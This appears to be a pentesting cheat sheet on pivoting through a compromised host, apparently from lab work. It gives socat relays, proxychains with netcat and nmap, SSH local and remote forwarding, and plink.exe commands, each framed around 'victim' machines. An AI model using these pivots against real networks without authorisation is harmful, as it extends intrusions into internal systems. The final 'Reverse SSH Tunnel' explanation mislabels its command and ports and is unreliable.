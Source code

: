 #### Port Forwarding using Socat

`./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &`

- Watch [IPPSEC](https://www.youtube.com/watch?v=Auqt-NSB4SQ)

### ProxyChains

- proxy a netcat `proxychains nc 172.16.0.10 23`

- when using nmap w/ proxychains comment out proxy_dns inside the proxychains.conf file

- only tcp scan will work

- udp, syn and ping scan wont work - use -Pn

### Port Forwarding 

Local: From attacker to victim via SSH

**_Attacker --ssh--> 172.16.0.5 --http--> 172.16.0.10_**
- `ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN` / ssh -i key -L 9000:10.10.10.75:80 10.10.10.73
   - f = backgrounds shell immediately
   - N = tells SSH that it doesn;t need to execute any command and just set up the connection 

Now we can access the webserver on 172.16.0.10 using our own box localhost:8000
**_Use this when victim-localhost has open port that is only accessible by victim-localhost itself_**

### Reverse Connection

When doing this to avoid reverse shell and to only allow port forwarding add `command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty` at the beginning of the public key.

**_We have a shell on victim(05) and we want to use it as a reverse connection from our machine(20) to webserver_victim(10)_**
- `ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN`

### Plink.exe for Windows

Command Line version of PuTTY SSH Client

**_Reverse Connection from Victim to our Attacker Machine._**
**_.20 Attacker --- .05 Victim we have a shell from --- .10 Webserver_**
- `cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N`

For the keyfile we need to convert it using puttygen tool
- `puttygen KEYFILE -o OUTPUT_KEY.ppk`

### Reverse SSH Tunnel 

Use when port is only accessible by victim local

`ssh -L 4444:10.10.125.232:8080`
   - 4444 port of victim you will access from outside
   - 10.10.125.232 victim's ip
   - 8080 local port you want to access inside the victim
